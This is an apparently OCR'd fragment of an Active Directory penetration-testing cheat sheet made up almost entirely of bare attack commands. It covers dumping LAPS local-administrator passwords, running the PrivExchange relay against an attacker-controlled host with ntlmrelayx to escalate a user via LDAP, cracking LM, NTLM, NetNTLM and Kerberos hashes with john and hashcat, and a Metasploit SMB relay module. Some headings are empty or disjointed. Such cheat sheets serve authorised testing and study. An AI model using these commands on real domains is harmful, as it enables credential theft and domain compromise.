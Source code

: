 ### GPO Delegation

### get laps passwords

- Get-LAPSPasswords -DomainController <ip_dc> -Credential <domain>\<login> | Format-Table -AutoSize
- foreach ($objResult in $colResults){$objComputer = $objResult.Properties; $objComputer.name|where {$objcomputer.name -ne $env:computername}|%{foreach-object {Get-AdmPwdPassword -ComputerName $_}}}

### privexchange

- python privexchange.py -ah <attacker_host_or_ip> <exchange_host> -u <user> -d <domain> -p <password>

	- ntlmrelayx.py -t ldap://<dc_fqdn>--escalate-user <user>

### ADCS

## find hash

### crack hash

- LM

	- john --format=lm hash.txt
	- hashcat -m 3000 -a 3 hash.txt

- NTLM

	- john --format=nt hash.txt
	- hashcat -m 1000 -a 3 hash.txt

- NTLMv1

	- john --format=netntlm hash.txt
	- hashcat -m 5500 -a 3 hash.txt

- NTLMv2

	- john --format=netntlmv2 hash.txt
	- hashcat -m 5600 -a 0 hash.txt rockyou.txt

- Kerberos 5 TGS

	- john spn.txt --format=krb5tgs --wordlist=rockyou.txt
	- hashcat -m 13100 -a 0 spn.txt rockyou.txt

- Kerberos ASREP

	- hashcat -m 18200 -a 0 AS-REP_roast-hashes rockyou.txt

## relay

### MS08-068

- use exploit/windows/smb/smb_relay #windows200 / windows server2008
